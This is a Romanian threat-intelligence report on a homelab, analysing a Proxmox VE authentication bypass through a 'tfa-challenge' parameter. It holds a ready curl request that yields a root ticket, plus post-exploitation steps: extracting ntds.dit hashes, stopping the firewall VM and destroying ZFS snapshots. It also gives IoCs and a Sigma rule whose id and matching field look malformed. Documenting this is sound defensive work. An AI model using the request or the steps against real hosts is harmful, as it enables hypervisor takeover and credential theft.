

# Raport Tehnic de Threat Intelligence: CVE-2023-54391
## Proxmox Virtual Environment (PVE) Authentication Bypass via `tfa-challenge` Parameter

---

| Câmp Evaluat | Valoare Detaliată |
| :--- | :--- |
| **Identificator CVE** | **CVE-2023-54391** |
| **Severitate / Scor CVSS** | **CRITICAL · CVSS 3.1: 9.8** (`CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`) · **CVSS 4.0: 9.3** |
| **CWE Asociat** | **CWE-287**: Improper Authentication · **CWE-305**: Authentication Bypass by Primary Weakness |
| **Componentă Afectată** | `libpve-access-control` (versiuni < 8.0.4) în Proxmox VE 7.0 – 8.0 |
| **Noduri Afectate în Homelab** | `pve_primary_x64` (`192.168.1.132` / Proxmox VE Bare-Metal Hypervisor) |
| **Vector de Atac** | Rețea (Unauthenticated Network POST la `/api2/json/access/ticket`) |
| **Impact Direct** | Compromitere totală a contului `root@pam`, control deplin pe hypervisor, acces la toate VM-urile și pool-urile ZFS |

---

## 1. Sumar Executiv & Context Operațional

**CVE-2023-54391** reprezintă o vulnerabilitate critică de ocolire completă a autentificării (Authentication Bypass) în motorul central de control al accesului Proxmox Virtual Environment (`libpve-access-control`).

Eroarea permite oricărui atacator de la nivel de rețea, fără a deține un cont valid sau vreo parolă, să obțină un tichet de autentificare cu privilegii depline (`root@pam`) pentru orice cont de utilizator activ care nu are configurat un factor secundar de autentificare (2FA/TFA). Prin simpla trimitere a unui parametru arbitrar `tfa-challenge` către endpoint-ul API de login `/api2/json/access/ticket`, rutina de verificare a parolei din modulul Perl `PVE::AccessControl` este complet sărită, iar sistemul emite un token de sesiune valid (`PVEAuthCookie`) și un `CSRFPreventionToken`.

În arhitectura noastră homelab (`inventory/hosts.yml`), Proxmox (`pve_primary_x64`) este nodul central de virtualizare bare-metal care găzduiește firewall-ul OPNsense (`opnsense_vm`), controllerele Active Directory (`ad2025_vm`, `ad2022_vm`), mașinile de monitorizare (`securityonion_vm`, `tpot_vm`) și pool-urile de stocare ZFS (`rpool`, `datapool`). O exploatare a acestei vulnerabilități duce la colapsul total al întregii infrastructuri virtualizate.

---

## 2. Analiză Tehnică Aprofundată & Cauză Primară (Root Cause)

### 2.1 Arhitectura de Autentificare PVE

Autentificarea în Proxmox VE este gestionată de pachetul Perl `libpve-access-control`. API-ul expune ruta HTTP POST:
```http
POST /api2/json/access/ticket HTTP/1.1
Host: 192.168.1.132:8006
Content-Type: application/x-www-form-urlencoded

username=root@pam&password=<SECRET>
```

În fluxul normal cu autentificare cu doi factori (TFA), procesul este divizat în două etape:
1. **Faza 1 (Verificare Parolă Primară)**: Clientul trimite utilizatorul și parola. Dacă parola este corectă și utilizatorul are TFA activat, serverul răspunde cu un obiect ce conține un tichet temporar și o provocare TFA (`ticket` temporar și `tfa-challenge`).
2. **Faza 2 (Validare Răspuns TFA)**: Clientul trimite din nou cererea, incluzând parametrul `tfa-challenge` și codul TOTP sau răspunsul WebAuthn (`response`).

### 2.2 Fluctuația Logică în `PVE::AccessControl::authenticate_user`

Vulnerabilitatea a fost introdusă în commit-ul `0f3d14d6be4d9f23e511701696a529ef3b7ffd61` și rezolvată în commit-ul `032e7d6d441f89a48cadfd7f47e957c8a561c022`.

În versiunile vulnerabile de `libpve-access-control`, funcția de autentificare verifica prezența parametrului `tfa-challenge`. Dacă acest parametru era furnizat în corpul cererii POST, codul presupunea în mod eronat că **Faza 1 (validarea parolei) a fost deja finalizată cu succes într-un apel anterior**!

Codul vulnerabil arăta conceptual astfel:

```perl
# VULNERABIL: libpve-access-control < 8.0.4
sub verify_user_auth {
    my ($rpcenv, $username, $password, $tfa_challenge, $tfa_response) = @_;

    my $usercfg = cfs_read_file('user.cfg');
    my $user_data = $usercfg->{users}->{$username} 
        or die "user does not exist\n";

    # Dacă atacatorul furnizează tfa-challenge, codul intră direct pe ramura TFA
    if (defined($tfa_challenge)) {
        # Verifică dacă utilizatorul are TFA configurat în user.cfg:
        my $tfa_cfg = $user_data->{tfa};
        if (!$tfa_cfg) {
            # EROARE FATALĂ DE LOGICĂ:
            # Dacă utilizatorul NU are TFA configurat, funcția consideră că 
            # verificarea a trecut cu succes și returnează fără să mai ceară parola!
            return $username; 
        }
        # Dacă are TFA, validează $tfa_response...
    } else {
        # Doar dacă tfa-challenge NU este definit, se verifică parola:
        authenticate_pam_password($username, $password);
    }
}
```

### 2.3 Mecanismul de Exploatare

Atacatorul trimite o cerere HTTP POST cu orice valoare în câmpul `tfa-challenge` (de exemplu `tfa-challenge=bypass`):
1. Parametrul `$password` este lăsat gol sau trimis ca șir vid.
2. Deoarece `$tfa_challenge` este definit, ramura `else` (care apelează `authenticate_pam_password`) este ignorată complet.
3. Serverul interoghează configurația utilizatorului `root@pam`. Dacă contul `root@pam` nu are configurat TFA (ceea ce este configurația implicită la instalarea Proxmox), ramura de verificare a cheii TFA observă că `$tfa_cfg` este nul.
4. În loc să returneze o eroare `401 Unauthorized`, rutina returna succes, emițând tichetul complet de sesiune `root@pam`!

---

## 3. Impactul Specific în Arhitectura Homelab-ului Nostru

În topologia documentată în `inventory/hosts.yml` și `hypervisors/hyperv/main.tf`:

```
               [ ATACATOR ÎN REȚEA / LAN 192.168.1.0/24 ]
                                   │
                HTTP POST /api2/json/access/ticket
                (username=root@pam & tfa-challenge=any)
                                   ▼
         ┌──────────────────────────────────────────────────┐
         │       pve_primary_x64 (192.168.1.132:8006)       │
         │          Bare-Metal Proxmox Hypervisor           │
         │        [ Ocolire Autentificare -> ROOT ]         │
         └────────────────────────┬─────────────────────────┘
                                  │
      ┌───────────────────────────┼───────────────────────────┐
      ▼                           ▼                           ▼
┌──────────────┐         ┌──────────────────┐        ┌──────────────────┐
│ opnsense_vm  │         │   ad2025_vm      │        │ ZFS Storage Pool │
│  (VMID 200)  │         │   (VMID 400)     │        │ rpool & datapool │
│ Oprire FW &  │         │ Extragere Disc   │        │ Acces la date &  │
│ Pivoting LAN │         │ VHDX / NTDS.dit  │        │ backup-uri vzdump│
└──────────────┘         └──────────────────┘        └──────────────────┘
```

1. **Compromiterea Hypervisorului `pve_primary_x64` (192.168.1.132)**:
   * Atacatorul preia controlul complet al nodului bare-metal Intel Core i3-10100F.
   * Are acces direct la CLI-ul host-ului via `/api2/json/nodes/pve_primary_x64/execute` sau VNC/xterm.js.
2. **Extragerea Datelor din Active Directory (`ad2025_vm` & `ad2022_vm`)**:
   * Fără să fie nevoie de autentificare în Windows Domain, atacatorul accesează volumul ZFS `/dev/zvol/rpool/data/vm-400-disk-0` și montează direct sistemul de fișiere NTFS.
   * Extrage fișierele `C:\Windows\NTDS\ntds.dit` și `SYSTEM` hive, recuperând hash-urile NTLM ale tuturor conturilor de domeniu (inclusiv `KRBTGT`).
3. **Neutralizarea Firewall-ului OPNsense (`opnsense_vm`, VMID 200)**:
   * Atacatorul poate opri VM-ul OPNsense (`qm stop 200`), clonând sau modificând regulile de rețea virtuală (`vmbr0`, `vmbr1`), obținând acces nerestricționat către toate VLAN-urile izolate.
4. **Manipularea Stocării ZFS (`rpool` și `datapool`)**:
   * Ștergerea snapshot-urilor ZFS, distrugerea dataset-urilor sau exfiltrarea arhivelor `vzdump` ce conțin backup-urile de producție.

---

## 4. Lanțul de Exploatare (Exploitation Kill Chain)



1. **Reconnaissance**: Scanare pe portul `8006/TCP`. Identificarea banner-ului Proxmox VE și a versiunii vulnerabile (PVE 7.0 - 8.0.3).
2. **Crafting Payload**: Construirea cererii HTTP de bypass:
   ```bash
   curl -k -s -X POST https://192.168.1.132:8006/api2/json/access/ticket \
     -d "username=root@pam" \
     -d "password=" \
     -d "tfa-challenge=exploit"
   ```
3. **Session Acquisition**: Răspunsul serverului conține:
   ```json
   {
     "data": {
       "ticket": "PVE:root@pam:65...::...",
       "CSRFPreventionToken": "65...:...",
       "username": "root@pam"
     }
   }
   ```
4. **Post-Exploitation**: Utilizarea cookie-ului `PVEAuthCookie` pentru apeluri administrative via REST API sau deschiderea unui shell interactiv prin VNC websocket (`/api2/json/nodes/pve_primary_x64/vncwebsocket`).

---

## 5. Indicatori de Compromitere (IoCs) & Signaturi de Detecție

### 5.1 Artefacte de Rețea & Web Server
* Cereri HTTP POST către `/api2/json/access/ticket` care includ parametrul `tfa-challenge`, dar nu sunt precedate de o sesiune de login legitimă.
* Înregistrări în `/var/log/pveproxy/access.log`:
  ```text
  192.168.1.X - root@pam [13/Sep/2026:19:00:00 +0300] "POST /api2/json/access/ticket HTTP/1.1" 200 842
  ```

### 5.2 Regulă de Detecție SIEM (Format Sigma)

```yaml
title: Proxmox VE Authentication Bypass Attempt (CVE-2023-54391)
id: 54391a01-pve-auth-bypass-detection
status: experimental
description: Detectează tentative de exploatare a vulnerabilității CVE-2023-54391 prin trimiterea de cereri HTTP POST către endpoint-ul de tichete Proxmox cu parametrul tfa-challenge fără o sesiune validă.
author: StefanUTC1
references:
  - https://forum.proxmox.com/threads/proxmox-virtual-environment-security-advisories.149331/
tags:
  - attack.initial_access
  - attack.t1078.001
  - attack.t1190
  - cve.2023.54391
logsource:
  category: webserver
  product: proxmox
detection:
  selection:
    c-method: 'POST'
    cs-uri-stem: '/api2/json/access/ticket'
    cs-uri-query|contains: 'tfa-challenge'
  condition: selection
falsepositives:
  - Autentificări legitime cu al doilea factor TFA/TOTP (totuși, în fluxul standard, tfa-challenge este gestionat prin cookie-uri de sesiune de etapă).
level: critical
```

---

## 6. Măsuri de Remediere

Ghidul complet pas-cu-pas, scripturile automate de remediere, playbook-ul Ansible și procedurile de hardening sunt documentate în [fix.md](./fix.md).
